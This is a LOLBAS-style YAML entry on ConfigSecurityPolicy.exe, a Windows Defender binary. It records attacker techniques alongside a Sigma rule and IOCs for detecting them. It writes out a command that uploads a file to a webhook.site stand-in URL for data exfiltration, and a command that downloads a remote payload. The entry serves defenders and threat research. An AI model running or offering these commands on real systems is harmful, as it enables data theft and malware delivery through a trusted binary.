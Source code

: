 ```yaml
---
Name: ConfigSecurityPolicy.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender. you can configure different pilot collections for each of the co-management workloads. Being able to use different pilot collections allows you to take a more granular approach when shifting workloads.
Author: Ialle Teixeira
Created: 2020-09-04
Commands:
  - Command: ConfigSecurityPolicy.exe C:\Windows\System32\calc.exe https://webhook.site/xxxxxxxxx?encodedfile
    Description: Upload file, credentials or data exfiltration in general
    Usecase: Upload file
    Category: Upload
    Privileges: User
    MitreID: T1567
    OperatingSystem: Windows 10
  - Command: ConfigSecurityPolicy.exe https://example.com/payload
    Description: It will download a remote payload and place it in INetCache.
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files\Windows Defender\ConfigSecurityPolicy.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\ConfigSecurityPolicy.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_configsecuritypolicy.yml
  - IOC: ConfigSecurityPolicy storing data into alternate data streams.
  - IOC: Preventing/Detecting ConfigSecurityPolicy with non-RFC1918 addresses by Network IPS/IDS.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching ConfigSecurityPolicy.exe.
  - IOC: User Agent is "MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)"
Resources:
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-switch-workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-monitor
  - Link: https://twitter.com/NtSetDefault/status/1302589153570365440?s=20
Acknowledgement:
  - Person: Ialle Teixeira
    Handle: '@NtSetDefault'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

